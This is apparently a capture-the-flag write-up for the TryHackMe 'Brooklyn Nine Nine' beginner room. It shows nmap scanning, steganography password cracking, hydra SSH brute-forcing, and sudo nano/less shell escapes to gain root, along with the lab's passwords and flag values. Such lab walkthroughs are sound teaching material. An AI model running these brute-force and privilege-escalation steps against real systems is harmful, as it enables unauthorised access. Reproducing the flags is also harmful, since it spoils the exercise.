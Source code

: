 ###### This room is aimed for beginner level hackers but anyone can try to hack this box. 
Room: https://tryhackme.com/room/brooklynninenine
##

**sudo nmap** -sS -sV xx.xx.xxx.xx
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Method 1  

We can access the web page hosted on the machine by navigating to the machine IP.  
Inspecting the page source code, we get a hint.  
```
<!-- Have you ever heard of steganography? -->
```

After we download the background image, we see that running steghide with no passphase returns us an error.  
```
steghide: can not uncompress data. compressed data is corrupted.
```

We can run **stegcracker** to bruteforce possible passphrases using a wordlist.  
**stegcracker** brooklyn99.jpg
```
Successfully cracked file with password: admin
```
After using steghide with the admin passphase, we get the data extracted to a file called note.txt.  
**steghide** extract -sf brooklyn99.jpg

Contents of **note.txt**
```
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

The next step is to connect to the machine using the ssh credentials we've got.    

**ssh** holt@xx.xx.xxx.xx using the password found above.   

After running the **sudo -l** command, we see that we can run **nano** as root.     
According to **gtfobins**, we can exploit this to get permanent root access using the following commands  
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
##
#### Method 2

There's a FTP server running on the target machine that supports anonymous login. (credentials: anonymous:anonymous)  
By connecting on the FTP server, we get access to a file called **note_to_jake.txt**.  
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

This note reveals us 3 possible users: amy, jake and holt.   
However, Jake's password seems weak so we can try to bruteforce the ssh credentials.  

**sudo hydra** -l jake -P /usr/share/wordlists/rockyou.txt ssh   
```
[22][ssh] host: xx.xx.xxx.xx  login: jake   password: 987654321
```

After connecting to the target machine using jake's credentials, we see that we have acces to the **less** command as sudo.  
According to **gtfobins**, we can exploit this using the following commands:
```
sudo less /etc/profile
!/bin/sh
```
##

The user flag is located in holt's home directory and is **ee11cbb19052e40b07aac0ca060c23ee**.  
The root flag is located at /root directory and is **63a9f0ea7bb98050796b649e85481845**  
